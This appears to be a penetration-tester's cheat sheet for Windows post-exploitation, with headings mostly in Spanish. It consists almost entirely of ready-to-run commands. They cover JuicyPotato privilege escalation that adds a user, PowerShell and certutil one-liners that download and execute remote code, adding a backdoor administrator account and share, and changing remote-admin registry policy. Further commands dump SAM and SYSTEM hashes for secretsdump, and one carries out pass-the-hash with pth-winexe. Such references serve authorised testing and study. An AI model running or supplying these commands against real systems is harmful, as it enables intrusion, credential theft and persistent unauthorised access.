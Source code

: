 ### SeImpersonatePrivilege

- juicyPotato
- PrintSpoofer

```
JuicyPotato.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c net user TEST TEST123 /add"
```

----

## Transferencia de archivos

```
powershell IEX(New-Object Net.WebClient).downloadString('<http://file>')
certutil.exe -f -urlcache -split <http://file>
IWR -uri <http://file> -OutFile <file>
```

----

## Pwned Psexec

```
cmd /c net user USERX PASSWORD /add
cmd /c net localgroup Administrators USERX /add
cmd /c net share attacker_folder=C:\Windows\Temp GRANT:Administrators,FULL
cmd /c reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountFilterPolicy /t REG_DWORD /d 1 /f
```

----

## Volcado de hash

```
reg save HKLM\SYSTEM C:\temp\system
reg save HKLM\SAM C:\temp\sam
```

```
secretsdump.py -sam SAM -system SYSTEM LOCAL
```

```
pwdump.py <SYSTEM> <SAM>
```

----

## Pass the hash

```
pth-winexe -U '<user>%<hash>' //<MACHINE_IP> cmd.exe
```
